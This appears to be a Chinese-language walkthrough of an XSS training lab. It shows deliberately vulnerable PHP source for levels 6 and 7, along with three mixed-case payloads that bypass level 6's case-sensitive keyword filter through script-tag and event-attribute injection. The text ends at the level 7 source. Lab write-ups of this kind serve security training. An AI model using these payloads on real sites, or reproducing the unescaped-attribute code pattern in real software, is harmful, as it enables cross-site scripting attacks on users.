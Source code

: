 ## Level 6：

```
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

emmmmm，看着这个代码过滤了很多的字符串，但是并没有进行大小写判定,很是好玩

```
"><ScRipT>alert(/xss/)</ScrIpt>
```

```
"ONclick="window.alert()
```

```
"><a HrEf="javascript:onclick=alert()">xss</a>
```

## Level 7：

```
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```
